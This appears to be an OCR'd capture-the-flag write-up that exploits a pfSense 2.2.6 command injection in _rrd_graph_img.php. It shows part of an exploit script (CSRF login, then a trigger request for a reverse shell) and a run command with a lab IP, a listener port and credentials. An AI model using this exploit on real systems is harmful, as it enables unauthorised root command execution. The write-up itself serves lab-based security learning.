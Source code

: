 ```

	login_data = collections.OrderedDict(login_data)

	encoded_data = urllib.parse.urlencode(login_data)



# POST login request with data, cookies and header

	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)

else:

	print("No CSRF token!")

	exit()



if login_request.status_code == 200:

		print("Running exploit...")

# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell

		try:

			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)

			if exploit_request.status_code:

				print("Error running exploit")

		except:

			print("Exploit completed")
```
Found this on searchsploit, let's see if it works for us or look in other sources.

Pfsense versions 2.2.6 and below contain a remote command execution vulnerability post authentication in the _rrd_graph_img.php page. The vulnerability occurs via the graph GET parameter. A non-administrative authenticated attacker can inject arbitrary operating system commands and execute them as the root user. 
Googling I found the following and this script does what is explained above, so let's try to get command injection.

```
python3 exploit.py --rhost 10.10.10.60 --lhost 10.10.14.5 --lport 443 --username rohit --password pfsense

CSRF token obtained
Running exploit...
Exploit completed
```
